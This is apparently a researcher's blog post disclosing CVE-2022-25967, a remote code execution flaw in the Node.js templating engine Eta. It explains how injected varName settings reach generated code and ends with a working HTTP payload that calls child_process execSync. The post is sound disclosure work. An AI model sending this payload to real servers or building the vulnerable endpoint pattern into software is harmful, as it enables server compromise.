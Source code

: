 ```yaml
---
layout: post
title:  "Finding RCE in NodeJS templating engine 'Eta' - CVE-2022-25967"
date: 2023-04-01
categories: CTF
thumbnail: /img/eta.webp#center
tags: nodejs eta templating-engine remote-code-execution rce snyk cve-2022-25967 prototype-pollution, express, web
---
```


In preparation for the HTB University CTF 2021 Finals, my colleagues and I at Hack The Box discovered a Remote Code Execution vulnerability in the Node.js templating engine 'Eta'. The vulnerability was reported via Snyk and assigned [CVE-2022-25967](https://www.cve.org/CVERecord?id=CVE-2022-25967). This blog post covers a short technical write-up of this vulnerability.

Inspired by the following [GitHub Advisory](https://securitylab.github.com/advisories/GHSL-2021-021-tj-ejs/) about Remote code execution in [Ejs](https://www.npmjs.com/package/ejs), we decided to take a look at other NodeJS templating engine libraries. We found [Eta](https://www.npmjs.com/package/eta), which has about ~260k+ weekly downloads.

![](/img/2023-04-02-01-54-33.png)

As per their readme, Eta's syntax is very similar to EJS and shares the same file-handling logic. The issue discovered in Eta is also very similar, as Eta also allows template engine configuration options to be passed through Express render API as defined in the [file-handlers.ts](https://github.com/eta-dev/eta/blob/9c8e4263d3a559444a3881a85c1607bf344d0b28/src/file-handlers.ts#L219) file:

```js
// If there is a config object passed in explicitly, use it
if (typeof config === 'object') {
    renderConfig = getConfig((config as PartialConfig) || {}) as EtaConfigWithFilename
} else {
    // Otherwise, get the config from the data object
    // And then grab some config options from data.settings
    // Which is where Express sometimes stores them
    renderConfig = getConfig(data as PartialConfig) as EtaConfigWithFilename
    if (data.settings) {
        // Pull a few things from known locations
        if (data.settings.views) {
            renderConfig.views = data.settings.views
        }
        if (data.settings['view cache']) {
            renderConfig.cache = true
        }
        // Undocumented after Express 2, but still usable, esp. for
        // items that are unsafe to be passed along with data, like `root`
        const viewOpts = data.settings['view options']

        if (viewOpts) {
            copyProps(renderConfig, viewOpts)
        }
    }
}
```

The `renderConfig` object is utilized for template engine configuration by the `compileToString` function as defined in the [compile-string.ts](https://github.com/eta-dev/eta/blob/9c8e4263d3a559444a3881a85c1607bf344d0b28/src/compile-string.ts#L21) file:

```js
export default function compileToString(str: string, config: EtaConfig): string {
  const buffer: Array<AstObject> = Parse(str, config)

  let res =
    "var tR='',__l,__lP" +
    (config.include ? ',include=E.include.bind(E)' : '') +
    (config.includeFile ? ',includeFile=E.includeFile.bind(E)' : '') +
    '\nfunction layout(p,d){__l=p;__lP=d}\n' +
    (config.useWith ? 'with(' + config.varName + '||{}){' : '') +
    compileScope(buffer, config) +
    (config.includeFile
      ? 'if(__l)tR=' +
        (config.async ? 'await ' : '') +
        `includeFile(__l,Object.assign(${config.varName},{body:tR},__lP))\n`
      : config.include
      ? 'if(__l)tR=' +
        (config.async ? 'await ' : '') +
        `include(__l,Object.assign(${config.varName},{body:tR},__lP))\n`
      : '') +
    'if(cb){cb(null,tR)} return tR' +
    (config.useWith ? '}' : '')

  if (config.plugins) {
    for (let i = 0; i < config.plugins.length; i++) {
      const plugin = config.plugins[i]
      if (plugin.processFnString) {
        res = plugin.processFnString(res, config)
      }
    }
  }

  return res
}
```

By overwriting the `varName`, `include`, `includeFile`, and `useWith` variables, we can simplify the anonymous function generated by the [compileToString](https://github.com/eta-dev/eta/blob/9c8e4263d3a559444a3881a85c1607bf344d0b28/src/compile-string.ts#L21) function to inject arbitrary JavaScript code on `varName` for Remote Code Execution:

```js
{
    "varName":"INJECTED_JS_FUNCTION_CALL()",
    "include" : false,
    "includeFile": false,
    "useWith": true
}
```

The resultant anonymous function generated with the above configuration variables is as follows:

```js
(function anonymous(x=INJECTED_JS_FUNCTION_CALL(),E,cb
) {
var tR='',__l,__lP
function layout(p,d){__l=p;__lP=d}
with(x=INJECTED_JS_FUNCTION_CALL()||{}){tR+='template file content here'
if(cb){cb(null,tR)} return tR}
})
```

An attacker can leverage the issue provided a Server-Side Prototype Pollution exists or user-controlled data is supplied to the `settings` key in the data object in Express render API. A vulnerable Express endpoint may look like the following:

```js
router.post('/settings', (req, res) => {
    const { userConfig } = req.body;
    return res.render('settings.eta', {settings: userConfig});
});
```
The above endpoint can be exploited by supplying the following HTTP request to achieve RCE:

```http
POST /settings HTTP/1.1
Host: localhost:8001
Content-Type: application/json
Content-Length: 219

{
    "view options": {
        "varName": "x=process.mainModule.require('child_process').execSync('touch /tmp/test.txt')",
        "include" : false,
        "includeFile": false,
        "useWith": true
    }
}
```

Coincidentally, I later stumbled upon the blog post [Finding Prototype Pollution gadgets with CodeQL](https://jorgectf.github.io/blog/post/finding-prototype-pollution-gadgets-with-codeql/) by Jorgectf and found this vulnerability was also discovered with CodeQL as a Server-Side Prototype Pollution gadget vector.

A special kudos to [Makelaris](https://twitter.com/makelariss) and [Makelaris jr.](https://twitter.com/makelarisjr) from Hack The Box for their help in discovering this vulnerability.

<h2 id="references">References</h2>
<ul>
<li><a href="https://github.com/eta-dev/eta/commit/5651392462ee0ff19d77c8481081a99e5b9138dd"  target="_blank">eta-dev/eta@5651392</a></li>
<li><a href="https://github.com/eta-dev/eta/blob/9c8e4263d3a559444a3881a85c1607bf344d0b28/src/compile-string.ts#L21"  target="_blank">eta-dev/eta@<code class="language-plaintext highlighter-rouge">9c8e426</code>/src/compile-string.ts#L21</a></li>
<li><a href="https://github.com/eta-dev/eta/blob/9c8e4263d3a559444a3881a85c1607bf344d0b28/src/file-handlers.ts#L182"  target="_blank">eta-dev/eta@<code class="language-plaintext highlighter-rouge">9c8e426</code>/src/file-handlers.ts#L182</a></li>
<li><a href="https://security.snyk.io/vuln/SNYK-JS-ETA-2936803"  target="_blank">security.snyk.io/vuln/SNYK-JS-ETA-2936803</a></li>
</ul>
